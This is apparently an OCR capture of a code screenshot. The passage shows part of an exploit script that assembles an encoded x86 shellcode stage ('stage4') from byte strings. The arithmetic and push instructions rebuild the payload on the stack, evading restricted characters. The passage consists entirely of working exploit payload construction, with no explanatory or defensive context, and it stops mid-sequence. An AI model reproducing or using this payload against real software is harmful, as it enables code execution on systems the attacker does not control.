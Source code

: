 ```
stage4 += "\x05\x13\x63\x71\x54" ## add  eax, 0x54716313
stage4 += "\x05\x02\x52\x61\x44" ## add  eax, 0x44615202
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x75\x67\x55\x35" ## add  eax, 0x35556775
stage4 += "\x05\x75\x57\x45\x25" ## add  eax, 0x25455775
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x13\x67\x37\x37" ## add  eax, 0x37376713
stage4 += "\x05\x04\x57\x26\x26" ## add  eax, 0x26265704
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x11\x11\x31" ## add  eax, 0x31111163
stage4 += "\x05\x63\x21\x21\x32" ## add  eax, 0x32212163
stage4 += "\x05\x43\x11\x11\x21" ## add  eax, 0x21111143
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x14\x41\x60\x14" ## add  eax, 0x14604114
stage4 += "\x05\x04\x40\x50\x04" ## add  eax, 0x04504004
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x17\x23\x26\x55" ## add  eax, 0x55262317
stage4 += "\x05\x06\x14\x15\x55" ## add  eax, 0x55151406
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x37\x12\x53" ## add  eax, 0x53123733
stage4 += "\x05\x32\x47\x11\x52" ## add  eax, 0x52114732
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x25\x36\x40\x31" ## add  eax, 0x31403625
stage4 += "\x05\x15\x26\x40\x30" ## add  eax, 0x30402615
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x26\x37\x07\x75" ## add  eax, 0x75073726
stage4 += "\x05\x15\x36\x06\x74" ## add  eax, 0x74063615
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x53\x72\x74\x15" ## add  eax, 0x15747253
stage4 += "\x05\x42\x72\x74\x04" ## add  eax, 0x04747242
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x67\x63\x32\x31" ## add  eax, 0x31326367
stage4 += "\x05\x66\x62\x22\x22" ## add  eax, 0x22226266
stage4 += "\x05\x45\x42\x22\x21" ## add  eax, 0x21224245
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x52\x31\x32\x12" ## add  eax, 0x12323152
stage4 += "\x05\x41\x30\x21\x12" ## add  eax, 0x12213041
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
```